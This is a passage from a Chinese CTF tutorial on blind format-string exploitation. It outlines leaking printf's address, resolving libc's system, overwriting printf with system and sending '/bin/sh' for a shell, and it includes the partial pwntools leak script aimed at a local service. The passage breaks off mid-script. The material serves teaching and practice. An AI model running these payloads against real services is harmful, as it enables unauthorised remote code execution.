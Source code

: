 可以基本确定的是 sub_4004C0 为 read 函数，因为读入函数一共有三个参数的话，基本就是 read 了。此外，下面调用的 sub_4004B0 应该就是输出函数了，再之后应该又调用了一个函数，此后又重新跳到读入函数处，那程序应该是一个 while 1 的循环，一直在执行。

**注解：**补充一张图

![fmrstr_6](img/fmrstr_6.png)

#### 利用思路 

分析完上面的之后，我们可以确定如下基本思路

- 泄露 printf 函数的地址，
- 获取对应 libc 以及 system 函数地址
- 修改 printf 地址为 system 函数地址
- 读入 /bin/sh; 以便于获取 shell

#### 利用程序 

程序如下。

```python
##coding=utf8
import math
from pwn import *
from LibcSearcher import LibcSearcher
##context.log_level = 'debug'
context.arch = 'amd64'
ip = "127.0.0.1"
port = 9999


def leak(addr):
    # leak addr for three times
    num = 0
    while num < 3:
        try:
            print 'leak addr: ' + hex(addr)
            sh = remote(ip, port)
            payload = '%00008$s' + 'STARTEND' + p64(addr)
            # 说明有\n，出现新的一行
            if '\x0a' in payload:
                return None
            sh.sendline(payload)
            data = sh.recvuntil('STARTEND', drop=True)
            sh.close()
            return data
        except Exception:
            num += 1
            continue
    return None


def getbinary():
    addr = 0x400000
```